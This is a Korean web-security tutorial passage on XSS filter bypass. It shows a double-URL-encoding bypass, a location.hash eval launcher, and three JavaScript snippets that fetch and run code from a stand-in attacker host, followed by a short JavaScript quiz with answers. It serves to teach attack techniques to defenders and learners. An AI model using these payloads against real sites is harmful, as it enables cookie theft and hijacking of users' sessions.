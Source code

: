 ```http
POST /search?query=%3Cscript%3Ealert(document.cookie)%3C/script%3E HTTP/1.1
...
-----
HTTP/1.1 403 Forbidden
XSS attempt detected: &lt;script&gt;alert(document.cookie)&lt;/script&gt;
```
위의 메시지는 공격에 실패한 메시지이다.  
```http
POST /search?query=%253Cscript%253Ealert(document.cookie)%253C/script%253E HTTP/1.1
...
-----
HTTP/1.1 200 OK
<h1>Search results for: <script>alert(document.cookie)</script></h1>
```
위의 메시지는 더블 디코딩 공격을 성공한 메시지이다.  
## 길이 제한  
삽입할 수 있는 **코드의 길이가 제한**되어 있는 경우, 다른 경로로 실행할 추가적인 코드 (payload)를 **URL fragment** 등으로 삽입 후 삽입 지점에는 본 **코드를 실행하는 짧은 코드** (launcher)를 사용할 수 있습니다. 
### location.hash 를 이용한 공격 방식  
```http
https://example.com/?q=<img onerror="eval(location.hash.slice(1))">#alert(document.cookie); 
```
### 외부 자원을 이용한 공격 방식  
```javascript
import("http://malice.dreamhack.io");  
```
```javascript
var e = document.createElement('script')
e.src='http://malice.dreamhack.io';
document.appendChild(e);
```
```javascript
fetch('http://malice.dreamhack.io').then(x=>eval(x.text()))
```

# 퀴즈  
1. JS에서 객체의 특정 속성에 접근할 때 속성 이름을 동적으로 계산하는 기능은 무엇인가?  
**답** : Computed member access  
2. instanceof 연산자를 override 할 수 있는 symbol은 무엇인가?  
**답** : Symbol.hasInstance